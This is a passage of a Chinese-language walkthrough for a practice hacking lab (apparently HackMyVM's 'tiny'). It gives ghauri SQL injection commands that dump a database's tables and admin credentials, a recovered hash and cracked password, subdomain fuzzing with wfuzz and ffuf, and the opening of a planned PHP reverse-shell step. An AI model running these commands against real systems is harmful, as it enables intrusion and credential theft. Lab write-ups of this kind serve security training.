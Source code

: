 ```bash
ghauri -r sql.txt --batch --current-db
ghauri -r sql.txt -p username -D wish_db --tables
ghauri -r sql.txt -p username -D wish_db -T wishs --dump
ghauri -r sql.txt -p username -D wish_db -T wishs -C wish --dump
ghauri -r sql.txt -p username -D wish_db -T admin --columns
ghauri -r sql.txt -p username -D wish_db -T admin -C username --dump
ghauri -r sql.txt -p username -D wish_db -T admin -C password --dump
```

得到：

```apl
umeko
8df4387dd1598d4dcf237f9443028cec
```

尝试解密一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729383.png" alt="image-20240409154011454" style="zoom:50%;" />

尝试登录：

```bash
umeko
fuckit!
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729384.png" alt="image-20240409154502640" style="zoom:50%;" />

进来了。

### FUZZ域名

FUZZ的结果：

```bash
wfuzz -u http://FUZZ.tiny.hmv -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --ip 172.20.10.3 --hw 901
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   301        0 L      0 W        0 Ch        "www"
000006244:   200        68 L     132 W      1821 Ch     "wish"
000009532:   400        10 L     35 W       300 Ch      "#www"
000010581:   400        10 L     35 W       300 Ch      "#mail"  
# ffuf -u http://FUZZ.tiny.hmv/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
# wish                    [Status: 200, Size: 1821, Words: 576, Lines: 69, Duration: 16ms]
```

没东西，接着做吧。

### 插入代码反弹shell

我们想插入php代码反弹shell，但是似乎没有相应的地方给我门进行操作，尝试查找该版本的相关漏洞了，到了这里应该是想让我们使用相关漏洞的：
